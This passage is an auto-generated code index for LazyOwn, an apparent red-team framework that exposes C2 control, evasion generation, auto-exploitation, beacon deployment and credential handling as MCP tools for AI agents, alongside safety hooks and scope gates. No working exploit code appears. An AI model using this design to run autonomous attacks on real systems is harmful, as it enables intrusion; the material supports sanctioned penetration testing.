- `list_agents` (line 865) `def list_agents(limit)`
- `main` (line 872) `def main()`

**Methods:**
- `__init__` (line 702) `def __init__(self)`
- `spawn` (line 706) `def spawn(self, goal, tools_filter, api_key, backend, max_iterations, system_prompt, block)` - *Spawn a new agent. Returns agent_id immediately.
If block=True, waits for completion before returning.*
- `_run` (line 742) `def _run(self, state, tools, api_key, max_iterations, system_prompt)`
- `status` (line 778) `def status(self, agent_id)`
- `result` (line 794) `def result(self, agent_id)`
- `list_all` (line 807) `def list_all(self, limit)`

#### `lazyown_hooks.py`
**Path:** `skills/lazyown_hooks.py`
**File Doc:** *LazyOwn Hook Pipeline (Claude Code style)  8 lifecycle events with chainable handlers. Hooks can block execution (return "deny" context) or enrich results.  Events: pre_tool_use       → can deny/modify before dispatch post_tool_use      → can enrich/log after success post_tool_failure  → runs after exception permission_denied  → runs when permission gate blocks a tool session_start      → runs once on MCP init pre_compact        → runs before context compaction post_compact       → runs after compaction audit              → runs on every tool call (logging only)*

**Classes:**
- `HookEvent` (line 27) `class HookEvent(Enum)`
- `HookRegistry` (line 38) `class HookRegistry` - *Chainable hook system.

Each handler receives a context dict and returns an (optionally modified)
context dict. Returning None leaves the context unchanged.
Setting context["_block"] = True in a pre_tool_use hook denies execution.*

**Functions:**
- `sandbox_hook` (line 101) `def sandbox_hook(context)` - *PRE_TOOL_USE: block catastrophic shell commands before permission evaluation.
Acts as a last-resort safety net independent of the permission system.*
- `rate_limit_hook` (line 116) `def rate_limit_hook(context, window, limit)` - *PRE_TOOL_USE: prevent rapid-fire C2 commands (>5 per 2s).
Protects against runaway agent loops.*
- `audit_hook` (line 139) `def audit_hook(context, audit_path)` - *AUDIT: append a one-line JSON record of every tool call to the audit log.
Non-blocking — errors are silently swallowed.*
- `timing_hook` (line 161) `def timing_hook(context)` - *POST_TOOL_USE: annotate result with wall-clock execution time.
Reads _start_time set by pre_tool_use in the same call.*
- `start_timer_hook` (line 176) `def start_timer_hook(context)` - *PRE_TOOL_USE: record start time for timing_hook.*
- `build_default_registry` (line 187) `def build_default_registry(sessions_dir)` - *Create a HookRegistry with the built-in safety hooks wired up.
Call this once and keep the singleton.*
- `get_registry` (line 224) `def get_registry(sessions_dir)`
- `_audit` (line 208) `def _audit(ctx)`

**Methods:**
- `__init__` (line 47) `def __init__(self)`
- `register` (line 56) `def register(self, event, handler)`
- `run` (line 59) `def run(self, event, context)` - *Run all handlers for event, chaining modified contexts.*
- `metrics` (line 79) `def metrics(self)` - *Return aggregate hook execution counts.*

#### `lazyown_llm.py`
**Path:** `skills/lazyown_llm.py`
**File Doc:** *LazyOwn LLM Bridge — MCP Edition ================================= Unified satellite-model interface for lazyown_mcp.py.  Backends: groq    — Groq API (llama-3.3-70b / llama-3.1-8b). Native tool calling via OpenAI-compatible API. ollama  — Local Ollama.  deepseek-r1:1.5b has NO native tool calling. Bridge implements ReAct (Reason + Act) via prompt engineering: the model emits Thought/Action/Action Input/Observation turns that are parsed and executed here, then fed back.  Design: - Zero Flask dependency — pure stdlib + optional groq SDK + requests - Single LLMBridge class owns the tool registry - Both backends share the same tool registry (name → callable) - Groq path: native tool_calls JSON from API → execute → assistant turn - Ollama path: ReAct text loop → regex parse → execute → inject Observation - deepseek-r1 wraps reasoning in <think>…</think>; those are stripped before parsing so the Action line is always visible to the parser - All tool outputs are truncated to MAX_TOOL_OUTPUT chars (context safety)  MCP usage: lazyown_llm_ask(goal="…", backend="groq", max_iterations=6) lazyown_llm_ask(goal="…", backend="ollama")  CLI usage: python3 skills/lazyown_llm.py ask "Enumerate SMB on 127.0.0.1" --backend groq*

**Classes:**
- `LLMTool` (line 71) `class LLMTool` - *A callable tool available to the satellite model.*
- `LLMBridge` (line 97) `class LLMBridge` - *Unified bridge to Groq (native tool calling) and local Ollama (ReAct).

Register tools once, then call ask().  Both backends execute the same tools.*

**Functions:**
- `_make_default_tools` (line 334) `def _make_default_tools(bridge)` - *Register a standard set of LazyOwn-aware tools on the bridge.

These tools are safe to call autonomously:
  run_command     — executes a LazyOwn shell command
  read_nmap       — reads the latest nmap scan for a target
  read_plan       — reads sessions/plan.txt
  read_facts      — shows FactStore summary for a target
  read_objectives — lists pending objectives*
- `build_bridge` (line 438) `def build_bridge(backend, model, api_key, with_default_tools)` - *Create a ready-to-use LLMBridge with optional default LazyOwn tools.

Called by lazyown_mcp.py for the lazyown_llm_ask handler.*
- `_default_system_prompt` (line 455) `def _default_system_prompt(tool_names)`
- `llm_ask` (line 468) `def llm_ask(goal, context, backend, model, api_key, max_iterations, system_prompt, extra_tools)` - *Single-call entry point for lazyown_mcp.py.

extra_tools: {name: (description, parameters_dict, callable)}*
- `main` (line 493) `def main()`
- `run_command` (line 346) `def run_command(command)` - *Execute a LazyOwn shell command and return its output.*
- `read_nmap` (line 352) `def read_nmap(target)` - *Read the nmap scan file for the given target IP.*
- `read_plan` (line 369) `def read_plan()` - *Read the current attack plan from sessions/plan.txt.*
- `read_facts` (line 376) `def read_facts(target)` - *Return FactStore structured facts for a target (or all targets).*
- `read_objectives` (line 389) `def read_objectives(limit)` - *List the next N pending attack objectives.*

**Methods:**
- `openai_schema` (line 79) `def openai_schema(self)`
- `__init__` (line 104) `def __init__(self, backend, model, api_key)`
- `register_tool` (line 118) `def register_tool(self, name, description, parameters, func)`
- `ask` (line 127) `def ask(self, goal, context, max_iterations, system_prompt)`
- `_ask_groq` (line 140) `def _ask_groq(self, goal, context, max_iterations, system_prompt)`
- `_groq_request` (line 201) `def _groq_request(self, messages, tools)`
- `_ask_ollama_react` (line 238) `def _ask_ollama_react(self, goal, context, max_iterations, system_prompt)`
- `_ollama_generate` (line 305) `def _ollama_generate(self, prompt)`
- `_call_tool` (line 318) `def _call_tool(self, name, args)`

#### `lazyown_mcp.py`
**Path:** `skills/lazyown_mcp.py`
**File Doc:** *LazyOwn MCP Server Exposes LazyOwn framework capabilities as MCP tools for Claude Code and Claude web.  Usage: python3 skills/lazyown_mcp.py  Configuration via environment variables: LAZYOWN_DIR      - Path to LazyOwn directory (default: parent of this file) LAZYOWN_C2_HOST  - C2 server host (default: from payload.json) LAZYOWN_C2_PORT  - C2 server port (default: from payload.json) LAZYOWN_C2_USER  - C2 username (default: from payload.json) LAZYOWN_C2_PASS  - C2 password (default: from payload.json)*

**Functions:**
- `_ensure_engine` (line 74) `def _ensure_engine()`
- `_ensure_bridge` (line 92) `def _ensure_bridge()`
- `_ensure_state` (line 107) `def _ensure_state()`
- `_ensure_recommender` (line 118) `def _ensure_recommender()`
- `_sitrep_recommendations` (line 128) `def _sitrep_recommendations(limit)` - *Return top-N next-step suggestions for the sitrep payload.

``recommend_and_save`` reads target state from ``session_state`` and
resolves the API key itself, so no positional arguments are forwarded.

Args:
    limit: Maximum number of suggestions to return.

Returns:
    ``{"command", "score", "reasoning"}`` dicts, or a single
    ``{"error": ...}`` entry when the recommender is unavailable or
    raises.*
- `_ensure_narrator` (line 165) `def _ensure_narrator()`
- `_ensure_policy` (line 176) `def _ensure_policy()`
- `_ensure_facts` (line 186) `def _ensure_facts()`
- `_ensure_objectives` (line 204) `def _ensure_objectives()`
- `_ensure_llm` (line 224) `def _ensure_llm()`
- `_ensure_automapper` (line 235) `def _ensure_automapper()`
- `_ensure_pdb` (line 245) `def _ensure_pdb()`
- `_ensure_hive` (line 262) `def _ensure_hive()`
- `_ensure_auto` (line 290) `def _ensure_auto()`
- `_ensure_aci` (line 310) `def _ensure_aci()`
- `_get_pdb` (line 331) `def _get_pdb(_)`
- `_get_perm_system` (line 352) `def _get_perm_system()` - *Return PermissionSystem singleton (deny-first rule evaluator).*
- `_get_hooks` (line 365) `def _get_hooks()` - *Return HookRegistry singleton.*
- `_get_transcript` (line 378) `def _get_transcript()` - *Return active SessionTranscript singleton.*
- `_compact` (line 391) `def _compact(content, tool_name)` - *Apply 5-layer context compaction to a tool result string.*
- `_get_claudemd` (line 407) `def _get_claudemd()` - *Return ClaudeMdLoader singleton.*
- `_load_category_command_map` (line 462) `def _load_category_command_map()` - *Return the category→command map, merging any user overrides from sessions/.*
- `_load_payload` (line 509) `def _load_payload()` - *Load payload.json, return empty dict on failure.*
- `_has_data` (line 518) `def _has_data(path)` - *Return True when a session file exists and holds content.*
- `_save_payload` (line 523) `def _save_payload(data)`
- `_c2_creds` (line 533) `def _c2_creds()` - *Return (host, port, user, password) from env or payload.json.*
- `_c2_request` (line 543) `def _c2_request(path, method, body)` - *Make an authenticated HTTP request to the C2 server.*
- `register_handler` (line 618) `def register_handler(tool_name)` - *Decorator that registers an async handler for *tool_name*.

The decorated function receives ``(arguments: dict, tool_name: str)``
and must return ``list[types.TextContent]``.*
- `_make_text` (line 632) `def _make_text(tool_name, content)` - *Return a ``TextContent`` list after compacting *content*.*
- `_dispatch_perm_check` (line 644) `def _dispatch_perm_check(name, arguments)` - *Return a denial response if the permission system blocks *name*.*
- `_h_get_config` (line 684) `def _h_get_config(arguments, tool_name)`
- `_h_db` (line 690) `def _h_db(arguments, tool_name)` - *Read/write the LazyOwn SQLite campaign database.

Args:
    arguments: Tool arguments with an ``operation`` key.
    tool_name: MCP tool name for permission/transcript context.

Returns:
    A ``TextContent`` payload with the operation result as JSON.*
- `_h_get_llm_budget` (line 822) `def _h_get_llm_budget(arguments, tool_name)`
- `_h_set_config` (line 859) `def _h_set_config(arguments, tool_name)`
- `_h_list_modules` (line 882) `def _h_list_modules(arguments, tool_name)`
- `_h_run_command` (line 904) `def _h_run_command(arguments, tool_name)`
- `_h_ack_event` (line 969) `def _h_ack_event(arguments, tool_name)`
- `_h_c2_status` (line 981) `def _h_c2_status(arguments, tool_name)`
- `_h_rea` (line 1023) `def _h_rea(arguments, tool_name)` - *Reverse-engineer a local artifact through the REA CLI.

Args:
    arguments: action, target, address, query, provider, timeout.
    tool_name: Registered tool name used for the response envelope.

Returns:
    Single TextContent holding a JSON envelope with the REA result.*
- `_h_exploit_recommend` (line 1138) `def _h_exploit_recommend(arguments, tool_name)`
- `_h_evasion_generate` (line 1162) `def _h_evasion_generate(arguments, tool_name)`
- `_h_evasion_rotate` (line 1177) `def _h_evasion_rotate(arguments, tool_name)`
- `_h_pivot_status` (line 1191) `def _h_pivot_status(arguments, tool_name)`
- `_h_dashboard_snapshot` (line 1211) `def _h_dashboard_snapshot(arguments, tool_name)`
- `_h_unified_dashboard` (line 1231) `def _h_unified_dashboard(arguments, tool_name)`
- `_h_get_beacons` (line 1244) `def _h_get_beacons(arguments, tool_name)`
- `_h_auto_pwn` (line 1250) `def _h_auto_pwn(arguments, tool_name)`
- `_h_exploit_chain` (line 1283) `def _h_exploit_chain(arguments, tool_name)`
- `_h_lazy_status` (line 1343) `def _h_lazy_status(arguments, tool_name)`
- `_h_lazy_sync` (line 1353) `def _h_lazy_sync(arguments, tool_name)`
- `_h_lazy_board` (line 1363) `def _h_lazy_board(arguments, tool_name)`
- `_h_lazy_trace` (line 1386) `def _h_lazy_trace(arguments, tool_name)`
- `_h_lazy_hint` (line 1403) `def _h_lazy_hint(arguments, tool_name)`
- `_h_lazy_workspace` (line 1422) `def _h_lazy_workspace(arguments, tool_name)`
- `_h_lazy_proxy` (line 1443) `def _h_lazy_proxy(arguments, tool_name)`
- `_h_lazy_finding` (line 1468) `def _h_lazy_finding(arguments, tool_name)`
- `_h_lazy_mention` (line 1508) `def _h_lazy_mention(arguments, tool_name)`
- `_h_lazy_delete` (line 1539) `def _h_lazy_delete(arguments, tool_name)`
- `_h_lazy_compact` (line 1564) `def _h_lazy_compact(arguments, tool_name)`
- `_h_lazy_addon` (line 1588) `def _h_lazy_addon(arguments, tool_name)`
- `_h_lolbas_list` (line 1616) `def _h_lolbas_list(arguments, tool_name)`
- `_h_lolbas_use` (line 1656) `def _h_lolbas_use(arguments, tool_name)`
- `_h_stealth` (line 1706) `def _h_stealth(arguments, tool_name)`
- `_h_rich_tui_snapshot` (line 1730) `def _h_rich_tui_snapshot(arguments, tool_name)`
- `_h_inject_objective` (line 1764) `def _h_inject_objective(arguments, tool_name)`
- `_h_credentials` (line 1784) `def _h_credentials(arguments, tool_name)`
- `_h_facts_show` (line 1843) `def _h_facts_show(arguments, tool_name)`
- `_h_exploitgym_status` (line 1863) `def _h_exploitgym_status(arguments, tool_name)` - *Report ExploitGym harness readiness without installing anything.*
- `_h_exploitgym_list` (line 1877) `def _h_exploitgym_list(arguments, tool_name)` - *List ExploitGym tasks, optionally filtered by domain.*
- `_h_exploitgym_run` (line 1893) `def _h_exploitgym_run(arguments, tool_name)` - *Run the agent against an ExploitGym task (containerised only).*
- `_h_exploitgym_score` (line 1913) `def _h_exploitgym_score(arguments, tool_name)` - *Award Red Team Gym ELO for an ExploitGym task outcome.*
- `_h_opencode_config` (line 1932) `def _h_opencode_config(arguments, tool_name)` - *Point opencode/hermes configs at the Lazy llama.cpp server (backup first).*
- `_h_loop_smoke` (line 1954) `def _h_loop_smoke(arguments, tool_name)` - *Run the autonomous loop smoke test against a target with one LLM leg.

Binds the task to a single pool member (default llamacpp-local, the
local Qwen server), runs the orchestrator for the given rounds and
returns the independent goal verdict plus findings. Used to prove a
model leg end to end before trusting it in production runs.*
- `_run_lazyown_command` (line 2010) `def _run_lazyown_command(command, timeout)` - *Execute one or more LazyOwn shell commands non-interactively.

Uses a PTY (pseudo-terminal) for stdout/stderr so that LazyOwn's
os.get_terminal_size(stdout.fileno()) succeeds without the ioctl error.
stdin is kept as a pipe so we can send commands programmatically.
start_new_session=True keeps the child in its own session — sudo can't
reach /dev/tty for password prompts (use sudoers NOPASSWD via setup.sh).*
- `list_tools` (line 2113) `def list_tools()`
- `substitute_playbook_target` (line 6261) `def substitute_playbook_target(command, target)` - *Substitute the {target} token in a playbook step command.

The value is shell-quoted so metacharacters in the target cannot break
out of the step command. Step template syntax (pipes, redirects) is
preserved because only the substituted value is quoted.

Args:
    command: Step command template containing {target}.
    target: Target value to substitute.

Returns:
    Command with the quoted target in place of the token.*
- `call_tool` (line 6279) `def call_tool(name, arguments)`
- `_handle_sighup` (line 12459) `def _handle_sighup(signum, frame)` - *Clean exit on SIGHUP — Claude Code will restart the server automatically.*
- `main` (line 12470) `def main()`
- `_load` (line 75) `def _load(ns)`
- `_load` (line 93) `def _load(ns)`
- `_load` (line 108) `def _load(ns)`
- `_load` (line 119) `def _load(ns)`
- `_load` (line 166) `def _load(ns)`
- `_load` (line 177) `def _load(ns)`
- `_load` (line 187) `def _load(ns)`
- `_load` (line 205) `def _load(ns)`
- `_load` (line 225) `def _load(ns)`
- `_load` (line 236) `def _load(ns)`
- `_load` (line 246) `def _load(ns)`
- `_load` (line 263) `def _load(ns)`
- `_load` (line 291) `def _load(ns)`
- `_load` (line 311) `def _load(ns)`
- `_verified_context` (line 556) `def _verified_context()`
- `_is_lab_target` (line 566) `def _is_lab_target(name)`
- `_decorator` (line 625) `def _decorator(func)`
- `_result` (line 710) `def _result(payload)`
- `_run_with_fallback` (line 921) `def _run_with_fallback(cmd, to)`
- `_fail` (line 1035) `def _fail(message, remediation)`
- `_run_rea` (line 1110) `def _run_rea()`
- `_add` (line 1790) `def _add(user, secret, host, source, confirmed)`
- `_do_facts` (line 1853) `def _do_facts()`
- `text` (line 6293) `def text(content)`
- `_isolated_runner` (line 12364) `def _isolated_runner(cmd)`
- `_handle_sse` (line 12488) `def _handle_sse(request)`
- `_handle_messages` (line 12492) `def _handle_messages(scope, receive, send)`
- `coerce_value` (line 868) `def coerce_value(k, v)`
- `_create_tool_file` (line 193) `def _create_tool_file()`
- `_get_pdb` (line 251) `def _get_pdb(_)`
- `_compact_output_fn` (line 401) `def _compact_output_fn(c, t)`
- `_runner` (line 6654) `def _runner(cmd)`
- `_read_docstring` (line 7617) `def _read_docstring(cmd_name)` - *Extract do_<cmd> docstring from lazyown.py via AST — no shell spawn, no noise.*
- `_fused_recommendations` (line 8509) `def _fused_recommendations()`
- `_ensure_orchestrator` (line 8728) `def _ensure_orchestrator()` - *Build frontier, goals, constraints, guard, evidence, traffic once.*
- `_gate_command` (line 8801) `def _gate_command(cmd)` - *Fail-closed pre-execution gate: constraints, scope, guard rules.

Returns (allowed, note). Ask verdicts stay fail-closed in the
non-interactive loop; the pending approval id is kept in the
note so an operator can decide it out of band.*
- `_trace_append` (line 8836) `def _trace_append(record)` - *Append one worker-trace record to the append-only log.*
- `_trace_search` (line 8845) `def _trace_search(query, limit)` - *Search past worker traces by substring for process reuse.*
- `_settle_step` (line 8865) `def _settle_step(cmd, output, via, finding_values)` - *Single LAZY-style settle: evidence, traffic, goals, trace.

Called by both _execute_step branches so every step leaves the
same custody chain regardless of which source chose the command.*
- `_read_os_json` (line 8921) `def _read_os_json()` - *Read sessions/os.json and return the first entry or empty dict.*
- `_wait_for_nmap_xml` (line 8933) `def _wait_for_nmap_xml(tgt, timeout_s)` - *Block until sessions/scan_{tgt}.nmap.xml appears or timeout elapses.
Returns the XML path string on success, empty string on timeout.
Polls every 15 seconds; nmap on a /24 can take 20-30 min.*
- `_generate_tasks_from_sessions` (line 8953) `def _generate_tasks_from_sessions(tgt, platform, api_key)` - *Read all available session artefacts for *tgt* and ask the LLM to produce
a prioritised list of penetration-testing tasks.  Merges the result into
sessions/tasks.json without overwriting existing entries.

Returns the list of newly-generated task dicts.*
- `_next_pending_task` (line 9068) `def _next_pending_task()` - *Pop the highest-priority 'New' task from sessions/tasks.json,
mark it 'Started', and return it.  Returns None if none pending.*
- `_mark_task_done` (line 9097) `def _mark_task_done(task_id, outcome)` - *Update task status to Done or Blocked based on outcome.*
- `_bootstrap_sequence` (line 9114) `def _bootstrap_sequence()` - *Run the deterministic kill-chain pre-flight before the adaptive loop:
  1. ping  → detect OS, write sessions/os.json
  2. lazynmap → full TCP scan, wait for XML (up to 30 min)
  3. pwntomate → service-aware tool cascade from XML
  4. LLM task generation → populate sessions/tasks.json

Returns a list of bootstrap step dicts for reporting.*
- `_parquet_candidates` (line 9168) `def _parquet_candidates(category, tgt)` - *Query session_knowledge for commands that succeeded in `category`
against `tgt` in the past.  Returns a list ordered by frequency.*
- `_run_pwntomate_if_xml_ready` (line 9186) `def _run_pwntomate_if_xml_ready(tgt)` - *After lazynmap runs, try to find the generated XML file and pass it
to pwntomate for parallel, service-aware tool execution.
Returns a short status string for logging.*
- `_refresh_facts` (line 9225) `def _refresh_facts(tgt)` - *Re-ingest sessions/ into the fact store after pwntomate runs.*
- `_build_command_from_facts` (line 9233) `def _build_command_from_facts(category, resolved_cmd, resolved_args, tgt)` - *Use FactStore context to substitute concrete values into the command.
Returns (cmd, args) possibly augmented with known port/creds.*
- `_execute_step` (line 9269) `def _execute_step()`
- `_advance_phase_wm` (line 9923) `def _advance_phase_wm()`
- `_read_prompt` (line 10091) `def _read_prompt()`
- `_is_placeholder` (line 9742) `def _is_placeholder(val)`
- `_is_placeholder` (line 9376) `def _is_placeholder(val)`
- `_mcp_executor` (line 10227) `def _mcp_executor(command, target)`
- `_blocking_run` (line 10830) `def _blocking_run()`
- `_load_crons` (line 11466) `def _load_crons()`
- `_save_crons` (line 11477) `def _save_crons(entries)`
- `_deploy_beacon_sync` (line 11568) `def _deploy_beacon_sync()` - *Detect platform, compile beacon if needed, generate one-liner, copy to clipboard.
Returns a human-readable status string.*
- `_run_parquet_query` (line 11707) `def _run_parquet_query()`
- `_run_campaign` (line 11773) `def _run_campaign()`
- `_run_daemon` (line 11843) `def _run_daemon()`
- `_launch` (line 11928) `def _launch()`

#### `lazyown_mcp_helpers.py`
**Path:** `skills/lazyown_mcp_helpers.py`
**File Doc:** *LazyOwn MCP helper functions — pure logic, no MCP server imports.  This module hosts the analytical / file-system primitives used by the MCP high-impact tools (target_context, tasks_cleanup, evidence_grep, session_diff, freshness reporting, dry-run pre-flight, async jobs). Keeping them here makes the MCP server thin and the logic unit-testable in isolation.*

**Classes:**
- `TaskAudit` (line 153) `class TaskAudit` - *Outcome of evaluating a single task entry.*
- `JobRecord` (line 672) `class JobRecord` - *In-memory record for a backgrounded shell job.*
- `JobStore` (line 686) `class JobStore` - *Thread-safe in-memory store for run_command_async jobs.*

**Functions:**
- `is_likely_credential` (line 37) `def is_likely_credential(value)` - *Score whether a string is plausibly a real credential.

Returns:
    (is_likely, confidence_in_[0,1], reason).
    - timestamps, URLs, bare IPs, and empty values score 0.
    - user:pass and NTLM hash pairs score >=0.85.
    - hex strings of hash length score 0.6 (could be hash).
    - everything else scores 0.3 (unknown).*
- `evidence_freshness` (line 67) `def evidence_freshness(path, threshold_seconds, now)` - *Return age + stale flag for an evidence file.

Args:
    path: Path to a session artefact.
    threshold_seconds: Anything older than this is marked stale.
    now: Override current time (for tests).

Returns:
    {exists, size, mtime, age_seconds, age_human, stale, threshold_seconds}.
    If the file does not exist all numeric fields are 0 and exists=False.*
- `_format_age` (line 112) `def _format_age(seconds)` - *Return a compact human age string (e.g. '3h12m', '4d').*
- `parse_task_value` (line 125) `def parse_task_value(title)` - *Extract the embedded JSON-ish payload from a task title.

Tasks created by the WorldModelWatcher have titles like:
  'Leverage new credential: {"value": "...", "host": "...", ...}'
The string can be truncated. This helper returns whatever fields it can
parse (best-effort), or None if nothing structured is found.*
- `audit_tasks` (line 165) `def audit_tasks(tasks, min_confidence)` - *Classify each task as keep/drop with a reason.

Tasks whose embedded credential value parses as a timestamp / URL / IP
are flagged drop. Generic recon and objective tasks are kept.*
- `find_credential_provenance` (line 196) `def find_credential_provenance(value, sessions_dir, csv_name)` - *Locate where a credential was first observed.

Searches sessions/credentials*.txt and the session CSV log for the
value. Returns {source_file, line_no, captured_at, command} or None.*
- `evidence_grep` (line 297) `def evidence_grep(pattern, sessions_dir, scope, max_matches, max_file_bytes, case_insensitive)` - *Grep through session artefacts.

Args:
    pattern: Regex pattern to search for.
    sessions_dir: Root sessions directory.
    scope: 'all' | 'loot' | 'nmap' | 'http' | 'logs'.
    max_matches: Cap on returned matches.
    max_file_bytes: Skip files larger than this to avoid OOM on dumps.
    case_insensitive: Default True.

Returns:
    {pattern, scope, scanned, truncated, matches: [{path, line_no, line}]}.*
- `collect_pwntomate_evidence` (line 376) `def collect_pwntomate_evidence(rhost, sessions_dir)` - *List pwntomate output dirs for a target with per-dir freshness.

Returns one entry per discovered tool directory:
  {host, port, tool, files, age_seconds, stale}.*
- `build_target_context` (line 414) `def build_target_context(host, port, sessions_dir, payload, world_model)` - *Aggregate everything known about (host, port) into one structure.

Reads from sessions/, world_model.json, scan_<host>.nmap, pwntomate
outputs, credentials*.txt. Designed to replace 4-5 separate lookups
when an LLM is deciding on next steps for a target.*
- `preflight_command` (line 575) `def preflight_command(command, payload, sessions_dir)` - *Pre-flight a LazyOwn command without executing it.

Returns a structured assessment:
  {command, base_command, binary, binary_present, os_required, os_match,
   would_duplicate, duplicate_artifacts, missing_payload_keys, ok}.
Used by lazyown_run_command(dry_run=True) and the CLI dry-run alias.*
- `take_snapshot` (line 747) `def take_snapshot(sessions_dir, payload, world_model, tasks)` - *Capture a lightweight snapshot of the campaign state.

Stored at sessions/_mcp_session_snapshot.json. Includes file inventory
plus credential/task counts so a later diff can show what changed.*
- `diff_snapshot` (line 792) `def diff_snapshot(sessions_dir, payload, world_model, tasks)` - *Return what changed since the last snapshot.

If no prior snapshot exists, returns {first_run: True, ...} so callers
can choose whether to take one and report nothing.*
- `needs_confirmation` (line 875) `def needs_confirmation(tool_name, arguments)` - *Return True if tool should require an explicit confirm=True flag.*
- `_worker` (line 709) `def _worker()`

**Methods:**
- `__init__` (line 689) `def __init__(self, max_jobs)`
- `submit` (line 694) `def submit(self, command, runner, timeout)` - *Start a runner(command, timeout) in a background thread.*
- `status` (line 727) `def status(self, job_id)`
- `list` (line 732) `def list(self, limit)`

#### `lazyown_mcp_opencode.py`
**Path:** `skills/lazyown_mcp_opencode.py`
**File Doc:** *LazyOwn MCP OpenCode bridge.  Curated, short-named MCP server for autonomous OpenCode agents running on local models (e.g. ollama/qwen3.8:27b). Local models mis-handle large tool catalogs and re-namespace long names like ``lazyown_lazyown_campaign_sitrep``. This bridge exposes only the essential LazyOwn tools under short, memorable names and proxies every call back to the full ``lazyown_mcp`` server, which keeps the single source of truth for logic, permissions and hooks.  Usage: python3 skills/lazyown_mcp_opencode.py  The stdio transport is used (default), matching OpenCode local MCP config.*

**Functions:**
- `list_tools` (line 57) `def list_tools()` - *Expose the curated subset under short names, keeping original schemas.*
- `call_tool` (line 76) `def call_tool(name, arguments)` - *Proxy the short name to the full LazyOwn MCP handler.*
- `main` (line 84) `def main()`

#### `lazyown_objective.py`
**Path:** `skills/lazyown_objective.py`
**File Doc:** *LazyOwn Objective Store ======================= Priority-queue for high-level attack objectives.  Claude Code (the frontier model operating the MCP) is the primary writer and reader of this store.  Sub-systems (sessions_watcher, event_engine, auto_loop) may inject objectives automatically when they detect new context.  File format  — sessions/objectives.jsonl Each line    — one JSON object: { "id":         "<8-char hex>", "text":       "Enumerate SMB shares on 10.10.11.78 (port 445 confirmed open)", "priority":   "high",        # critical / high / medium / low "status":     "pending",     # pending / in_progress / done / blocked / skipped "source":     "claude",      # claude / watcher / event_engine / user "context":    { ... },       # arbitrary dict — facts, event ids, etc. "created_at": "<iso>", "updated_at": "<iso>", "notes":      "" }  Priority order for next_pending():  critical > high > medium > low Within same priority: FIFO (oldest first).  Usage: python3 skills/lazyown_objective.py inject "Enumerate SMB" --priority high python3 skills/lazyown_objective.py next*

**Classes:**
- `Objective` (line 105) `class Objective`
- `ObjectiveStore` (line 123) `class ObjectiveStore` - *Append-only JSONL store with full rewrite on status changes.

The file stays small (pentest campaigns rarely exceed a few hundred
objectives).  Thread safety is handled by atomic rename on write.*
- `SoulUpdater` (line 359) `class SoulUpdater` - *Smart section-level patcher for sessions/soul.md.

Instead of rewriting the whole file, it patches only the relevant
## section when new intelligence arrives (new credential, OS detected,
access level achieved, vulnerability found).

Each ## section is delimited by the next ## header or end-of-file.
If a section doesn't exist yet it is appended.

Usage (called by sessions_watcher after parsing):
    su = SoulUpdater()
    su.update_credentials([{"username": "admin", "password": "P@ss"}])
    su.update_phase("exploit")
    su.update_os("Windows Server 2019", "10.10.11.78")
    su.update_access("admin", "10.10.11.78", method="evil-winrm")
    su.update_vulnerabilities([{"vuln_id": "CVE-2021-34527", "severity": "critical", ...}])*

**Functions:**
- `decompose_goal` (line 296) `def decompose_goal(goal_text, target)` - *Split a compound goal into discrete verifiable objectives.

Rule-based fallback so goal nodes always exist: reconnaissance
clauses stay informational, everything else becomes an
independently completable objective with the target attached.
Returns the input unchanged when no split markers are present.*
- `read_soul` (line 320) `def read_soul()`
- `write_soul` (line 326) `def write_soul(content)`
- `current_plan` (line 330) `def current_plan()`
- `full_context_for_claude` (line 336) `def full_context_for_claude(target)` - *Return a single dict with everything Claude Code needs to reason about
the next objective:  soul + pending objectives + current plan + soul.*
- `main` (line 485) `def main()`

**Methods:**
- `sort_key` (line 116) `def sort_key(self)`
- `__init__` (line 131) `def __init__(self, path)`
- `_now` (line 135) `def _now(self)`
- `_load_all` (line 138) `def _load_all(self)`
- `_save_all` (line 153) `def _save_all(self, objs)`
- `_text_hash` (line 159) `def _text_hash(text)` - *8-char hex fingerprint of objective text for deduplication.*
- `cleanup` (line 163) `def cleanup(self)` - *Expire pending objectives whose TTL has passed.
Returns the number of objectives marked skipped.*
- `inject` (line 193) `def inject(self, text, priority, source, context, notes)`
- `_update_status` (line 229) `def _update_status(self, obj_id, status, notes)`
- `complete` (line 243) `def complete(self, obj_id, notes)`
- `block` (line 246) `def block(self, obj_id, reason)`
- `skip` (line 249) `def skip(self, obj_id, reason)`
- `start` (line 252) `def start(self, obj_id)`
- `next_pending` (line 255) `def next_pending(self)`
- `list_pending` (line 261) `def list_pending(self, limit)`
- `list_all` (line 265) `def list_all(self, status, limit)`
- `summary` (line 271) `def summary(self)`
- `__init__` (line 379) `def __init__(self)`
- `_read` (line 384) `def _read(self)`
- `_patch_section` (line 389) `def _patch_section(self, header, new_body)` - *Replace the body of ## header section; append if missing.*
- `_patch_line` (line 404) `def _patch_line(self, key, value)` - *Replace `key: <old>` with `key: value` anywhere in the file.*
- `update_phase` (line 417) `def update_phase(self, phase)` - *Update the `Phase:` line inside ## Current Focus.*
- `update_target` (line 421) `def update_target(self, target)` - *Update the `Target:` line inside ## Current Focus.*
- `update_os` (line 425) `def update_os(self, os_name, target)` - *Record detected operating system for a target.*
- `update_credentials` (line 432) `def update_credentials(self, creds)` - *Replace the ## Known Credentials section with discovered credentials.
Accepts list of dicts with keys: username, password, hash_value (optional).*
- `update_access` (line 459) `def update_access(self, level, target, method)` - *Update achieved access level for a target.*
- `update_vulnerabilities` (line 466) `def update_vulnerabilities(self, vulns)` - *Replace ## Key Vulnerabilities with the most severe findings.*

#### `lazyown_parquet_db.py`
**Path:** `skills/lazyown_parquet_db.py`
**File Doc:** *LazyOwn Parquet Knowledge Base ================================ Centralises session history and contextual knowledge in the parquets/ directory.  Two responsibilities ──────────────────── 1. SESSION KNOWLEDGE  →  parquets/session_knowledge.parquet • Ingests sessions/LazyOwn_session_report.csv (which has no id/success/category) • Enriches each row with: - id           : stable UUID derived from (start, command, args, destination_ip) - category     : extracted from cmd2 @with_category decorators in lazyown.py (parsed once at startup with a regex — no import needed) - success      : bool  (True by default from bootstrap; updated via annotate()) - outcome      : "success" | "failure" | "unknown" - reward       : int from policy RewardCalculator - confidence   : float - tier         : classifier tier - reason       : why the outcome was chosen • Merges new CSV rows incrementally (existing rows preserved, not overwritten) • Supports annotate(row_id, success, category) to patch rows AFTER execution  2. KNOWLEDGE QUERY ENGINE  →  any .parquet in parquets/ • query_knowledge(keyword, parquet, columns, limit) — generic keyword search over any parquet in parquets/  (binarios, lolbas_*, techniques, session_knowledge) • context_for_phase(phase, target) — rich context dict for MCP: * 